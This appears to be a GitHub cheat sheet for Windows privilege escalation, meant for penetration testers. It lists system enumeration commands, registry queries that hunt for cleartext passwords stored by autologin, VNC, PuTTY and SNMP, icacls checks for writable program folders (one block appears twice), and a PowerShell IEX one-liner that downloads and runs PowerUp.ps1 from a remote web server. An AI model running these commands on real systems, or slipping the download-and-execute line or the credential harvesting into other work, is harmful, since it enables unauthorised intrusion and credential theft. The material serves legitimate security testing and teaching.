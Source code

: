 # Windows-Cheatsheet

## Privilege Escalation
Reference: https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
Run this script: https://github.com/M4ximuss/Powerless/blob/master/Powerless.bat

### Basics

```
systeminfo
wmic qfe
net users
hostname
whoami
net localgroups
echo %logonserver%
netsh firewall show state
netsh firewall show config
netstat -an
```

### Clear Text Passwords
```
○ Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

○ VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

○ SNMP Parameters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

○ Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

○ Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

○ Weak Folder Permissions
```
Full Permissions for 'Everyone' on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 

Modify Permissions for Everyone on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
```

### View Installed Software
```
tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE

Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime

Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name
```



### Weak Folder Permissions
```
Full Permissions for 'Everyone' on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 

Modify Permissions for Everyone on Program Folders

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"

icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users" 
```

### Scheduled Tasks
```
schtasks /query /fo LIST /v
```

### SharpUp
```
https://github.com/GhostPack/SharpUp
```

### PowerUp.ps1

```
powershell.exe /c IEX(New-Object Net.WebClient).downloadString('webserver/PowerUp.ps1') ;Invoke-AllChecks
```



